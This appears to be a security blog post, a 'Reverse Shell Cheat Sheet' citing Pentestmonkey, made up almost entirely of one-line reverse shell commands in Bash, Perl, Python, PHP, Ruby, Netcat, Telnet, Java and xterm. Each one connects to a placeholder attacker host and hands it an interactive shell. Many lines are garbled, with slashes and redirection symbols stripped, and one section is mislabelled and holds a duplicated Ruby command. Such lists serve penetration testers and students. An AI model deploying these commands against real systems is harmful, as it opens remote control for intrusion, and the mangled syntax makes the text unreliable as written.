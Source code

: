 ```yaml
---
layout: single
title: Reverse Shell Cheat Sheet
excerpt: "List of reverse shell commands."
date: 2020-04-28
classes: wide
header:
  teaser: /assets/imagesrev-shell-cheat-sheet/rev-shell-001.png
  teaser_home_page: true
  icon: /assets/images/hacker-vector-6.png
categories:
  - cheat sheet
tags:
  - reverse shell
---
```


![](/assets/images/rev-shell-cheat-sheet/rev-shell-001.png)

![TEST](/assets/images/rev-shell-cheat-sheet/rev-shell-001.png)

## References
Pentestmonkey
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash

```
bash -i & devtcp10.0.0.18080 0&1
```

```
exec /bin/bash 0&0 2>&0
```

```
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

## PERL

```
perl -e 'use Socket;$i=10.0.0.1;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(tcp));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,&S);open(STDOUT,&S);open(STDERR,&S);exec(binsh -i);};'
```

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.0.0.1,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([binsh,-i]);'
```

## PHP

```php
php -r '$sock=fsockopen(10.0.0.1,1234);exec(binsh -i &3 &3 2&3);'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## PERL

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

## Netcat

```
nc -e binsh 10.0.0.1 1234
```

```
nc -c /bin/sh attackerip 4444
```

```
/bin/sh | nc attackerip 4444
```

```
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

```
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

## Java

```
r = Runtime.getRuntime()
p = r.exec([binbash,-c,exec 5devtcp10.0.0.12002;cat &5  while read line; do $line 2&5 &5; done] as String[])
p.waitFor()
```

## xterm

```
xterm -display 10.0.0.11
Xnest 1
```
